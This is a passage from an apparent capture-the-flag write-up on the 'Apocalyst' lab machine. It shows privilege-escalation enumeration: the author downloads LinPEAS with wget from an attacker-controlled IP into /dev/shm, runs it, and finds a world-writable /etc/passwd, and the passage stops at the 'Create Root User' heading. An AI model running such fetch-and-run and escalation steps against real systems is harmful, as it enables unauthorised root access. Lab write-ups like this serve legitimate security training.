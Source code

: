 

## Shell as root

### Enumeration

Nothing else obvious jumped out by poking around in common directories,
so I uploaded
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
by starting a Python webserver (`python3 -m http.server`) in the
directory and then using `wget` from Apocalyst to download it into
`/dev/shm`:



    www-data@apocalyst:/dev/shm$ wget 10.10.14.14:8000/linpeas.sh
    --2021-02-05 19:56:12--  http://10.10.14.14:8000/linpeas.sh
    Connecting to 10.10.14.14:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320037 (313K) [text/x-sh]
    Saving to: 'linpeas.sh'

    linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.08s   

    2021-02-05 19:56:13 (4.03 MB/s) - 'linpeas.sh' saved [320037/320037]



I'll set it executable, and run it:



    www-data@apocalyst:/dev/shm$ chmod +x linpeas.sh 
    www-data@apocalyst:/dev/shm$ ./linpeas.sh
    ...[snip]...
    [+] Hashes inside passwd file? ........... No
    [+] Writable passwd file? ................ /etc/passwd is writable
    [+] Credentials in fstab/mtab? ........... No
    [+] Can I read shadow files? ............. No
    [+] Can I read opasswd file? ............. No
    [+] Can I write in network-scripts? ...... No
    [+] Can I read root folder? .............. No
    ...[snip]...



It won't come through in this copy paste, but that
`/etc/passwd is writable` shows up in yellow background with red text!
The script is correct:



    www-data@apocalyst:/etc$ ls -l passwd
    -rw-rw-rw- 1 root root 1637 Jul 26  2017 passwd



That's exploitable.

### Create Root User
